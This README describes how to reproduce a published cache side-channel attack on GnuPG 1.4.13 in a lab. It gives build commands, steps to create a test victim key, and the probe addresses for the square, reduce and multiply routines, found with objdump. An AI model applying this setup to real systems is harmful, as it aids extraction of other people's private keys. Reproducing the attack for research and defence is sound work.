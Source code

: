 Reproducing GnuPG 1.4.13 Attacks
==================================

Compiling GnuPG
----------------

- Download: `ftp://ftp.gnupg.org/gcrypt/gnupg/gnupg-1.4.13.tar.bz2`
- Make sure to install `lib32-glibc` and `gcc-multilib`.

Run:

    ./configure --build=i686-pc-linux-gnu "CFLAGS=-m32" "CXXFLAGS=-m32" "LDFLAGS=-m32"
    make

The binary will show up in `./g10/gpg`.

Creating a Victim Private Key
------------------------------

Run:

    mkdir ./testconf
    chmod 700 ./testconf
    export GNUPGHOME="./testconf"
    ./g10/gpg --gen-key

Select:

    - RSA and RSA.
    - 2048 bits.
    - Never expires.
    - Name: "Test Key"

Encrypt a message to yourself:

    mkdir ./testfiles
    echo "Hello world" > ./testfiles/hello.txt
    ./g10/gpg -r "Test Key" -e ./testfiles/hello.txt

**NOTE:** This encrypted file is *not* signed, so when GnuPG decrypts it, it
will not validate any signature (This is probably OK, since if an attacker could
get a signed message to decrypt, they could probably get an unsigned one to
decrypt).

To Decrypt the message:

    ./g10/gpg -d ./testfiles/hello.txt.gpg

Finding Probe Addresses
------------------------

The `gpg.probe` from the authors is reproduced here:

    map /home/yval/gpg
    base 0x8048000
    probe 0x0810090d S #mpih-mul.c:270 (First cache line in mpih_sqr_n())
    probe 0x080ffdc3 r #mpih-div.c:329 (Loop in default case in mpihelp_divrem())
    probe 0x08100191 M #mpih-mul.c:121 (First cache line of mul_n())
    slot 2048

You need to change the `map` (to the path of ./g10/gpg). Leave the `base` and
`slot` alone. Change the addresses to what is described in the comments.

Do this by disassembling with `objdump` and using `less` to search for the
function names:

    objdump -D -M intel ./g10/gpg | less

I get:

    map ./g10/gpg
    base 0x8048000
    probe 0x080f7607 S #mpih-mul.c:270 (First cache line in mpih_sqr_n())
    probe 0x080f6c45 r #mpih-div.c:329 (Loop in default case in mpihelp_divrem())
    probe 0x080f6fa8 M #mpih-mul.c:121 (First cache line of mul_n())
    slot 2048

The `mpih-div.c` one is kind of hard to find. It's after the first `if` in the
`default` case, which looks like:


    80f6bfd:       e8 b6 1e 00 00          call   80f8ab8 <mpihelp_sub_n>
    80f6c02:       83 c4 10                add    esp,0x10
    80f6c05:       8b 45 1c                mov    eax,DWORD PTR [ebp+0x1c]
    80f6c08:       05 ff ff ff 3f          add    eax,0x3fffffff
    80f6c0d:       8d 14 85 00 00 00 00    lea    edx,[eax*4+0x0]
    80f6c14:       8b 45 10                mov    eax,DWORD PTR [ebp+0x10]
    80f6c17:       01 d0                   add    eax,edx
    80f6c19:       8b 00                   mov    eax,DWORD PTR [eax]
    80f6c1b:       89 45 d0                mov    DWORD PTR [ebp-0x30],eax
    80f6c1e:       c7 45 f4 01 00 00 00    mov    DWORD PTR [ebp-0xc],0x1
    # ... After this is the loop ...

Make sure the cache line you pick covers the first 'if' inside the loop (both
branches).

